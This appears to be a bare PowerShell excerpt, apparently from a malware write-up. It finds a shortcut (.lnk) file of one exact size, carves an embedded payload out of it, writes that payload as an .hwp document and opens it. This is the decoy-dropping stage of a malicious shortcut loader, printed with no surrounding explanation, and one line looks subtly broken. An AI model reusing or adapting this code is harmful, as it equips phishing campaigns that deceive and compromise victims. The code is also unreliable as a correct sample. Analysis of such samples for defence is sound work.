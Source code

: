 $lk=ls -Path '.\' ;
$lk= Where {$lk.length -eq 56397};
if($lk -eq $null) {$lk=ls -Path $env:temp -depth 2 | Where {$_.length -eq 56397}};
$n=$lk.name.Replace('.lnk','.hwp');

$lk=$lk.FullName;$file = [System.IO.File]::ReadAllBytes($lk);$file1=[byte[]]$file[5709..(5709+50688-1)];

$fsdf=$lk.Replace('.lnk','.hwp');[System.IO.File]::WriteAllBytes($fsdf,$file1);
&$fsdf;






